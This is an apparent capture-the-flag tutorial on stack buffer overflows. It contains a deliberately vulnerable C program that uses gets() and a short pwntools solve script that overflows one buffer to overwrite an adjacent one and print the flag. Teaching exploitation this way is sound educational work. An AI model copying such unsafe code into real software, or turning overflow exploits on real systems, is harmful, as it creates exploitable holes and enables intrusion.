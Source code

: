 # Example 2
### Description 
There are a number of unsafe functions in C/C++ that allow you to write an arbitrary amount of data, overflowing the allocated buffer.

There are many of these dangerous functions, but some common ones include gets, memcpy, scanf, strcpy, and many more.

Using these dangerous functions we can clobber other variables on the stack.

In the following example we will exploit gets to overwrite the following buffer.



### Example

```
#include <stdio.h>
#include <string.h>
// gcc -g -o chal chal.c

int main() {
    char buffer1[16];
    char buffer2[16] = "xxxxxxxxxxxxxxx";

    gets(buffer1);

    if (strcmp(buffer2, "impossible?") == 0) {
        puts("flag{win}");
    } else {
        puts("nope");
    }
}
```
### Solution 
Using the buffer overflow, we send input that writes past the allocated space for buffer1 to set the value of buffer2.

Since buffer2 is after buffer1 we first send 16 bytes to fill buffer1, and then write impossible? to buffer2 to get the flag.

### Solve Script 
```
import pwn

p = pwn.process("./chal")

p.sendline(b"a"*16 + b"impossible?")
p.interactive()
```
